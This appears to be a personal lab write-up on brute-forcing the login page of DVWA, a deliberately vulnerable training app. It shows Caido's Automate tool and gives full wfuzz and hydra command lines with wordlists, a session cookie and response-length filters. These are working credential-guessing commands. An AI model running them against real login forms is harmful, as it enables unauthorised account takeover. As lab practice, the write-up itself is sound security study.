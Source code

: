 ```yaml
---
title: "Brute Force"
date: 2024-02-07T16:06:04+01:00
draft: false
type: post
tags: ["Caido", "Web", "DVWA", "featured"]
categories: ["Hacking"]
description: "A hands-on guide to brute force attacks using DVWA. Learn how to automate login attempts with Caido and wfuzz, build effective username and password lists, and understand response analysis for successful credential discovery. Includes practical tips for both manual and automated approaches."
---
```


A brute force attack can manifest itself in many different ways, but primarily consists in an attacker configuring predetermined values, making requests to a server using those values, and then analyzing the response. For the sake of efficiency, an attacker may use a dictionary attack (with or without mutations) or a traditional brute-force attack (with given classes of characters e.g.: alphanumeric, special, case (in)sensitive). Considering a given method, number of tries, efficiency of the system which conducts the attack, and estimated efficiency of the system which is attacked the attacker is able to calculate approximately how long it will take to submit all chosen predetermined values.

https://owasp.org/www-community/attacks/Brute_force_attack


At the Login page  attempt to log in with any random character

![](1.png)

In Caido;
	In the HTTP history tab find the corresponding request:
	
![](2.png)

Send it to Automate

![](3.png)

Select matrix:
Highlight the username you entered, and add a payload
Make a list of all the usernames you know

![](4.png)


Highlight the the password you entered
Google: password list small filetype:txt
find a suitable file containing passwords
In Caido on the left menu select 'files' and upload your workdlist

![](5.png)

	Back in Automate:
	Select the password you entered and add a second payload
		Type: Hosted file 
		Select your wordlist
			Hit 'Run'

![](6.png)

Once you've run the file sort the requests by Length(decending)

![](7.png)

Also: 

![](8.png)

Open the image and you'll find the directory 
	
![](9.png)

![](10.png)

Try this command: 
`wfuzz -c -w shortlist.txt -b 'security=low;PHPSESSID=fa9v6gnk6bf6le62oss13p9snf' 'http://192.168.0.123/dvwa/vulnerabilities/brute/?username=admin&password=FUZZ&Login=Login'`

![](11.png)


This one is for 'gordonb':

`wfuzz -c -w shortlist.txt -b 'security=low;PHPSESSID=fa9v6gnk6bf6le62oss13p9snf' '
http://192.168.10.123/dvwa/vulnerabilities/brute/?username=gordonb&password=FUZZ&Login=Login'
`

![](12.png)

Add the show words flag: --sw

`wfuzz **--sw 259** -c -w shortlist.txt -b 'security=low;PHPSESSID=fa9v6gnk6bf6le62oss13p9snf' 'http://192.168.10.123/dvwa/vulnerabilities/brute/?username=admin&password=FUZZ&Login=Login'`

![](13.png)

Even better:

`wfuzz **--hh 4373** -c -w shortlist.txt -b 'security=low;PHPSESSID=fa9v6gnk6bf6le62oss13p9snf'
'http://192.168.10.123/dvwa/vulnerabilities/brute/?username=gordonb&password=FUZZ&Login=Login'`

This will hide responses with 4373 characters.
	
![](14.png)

![](15.png)

`wfuzz --hh 4373 -c -w users.txt -w shortlist.txt -b 'security=low;PHPSESSID=fa9v6gnk6bf6le62oss13p9snf' 'http://192.168.10.123/dvwa/vulnerabilities/brute/?username=FUZZ&password=FUZ2Z&Login=Login'`


I'm struggling to get the hard one. 

`hydra -L users.txt -P shortlist.txt -u 192.168.10.123 http-post-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F='Username and/or password incorrect'" -I`

**High:**

Need to find a way to use the correct csrf/user token 
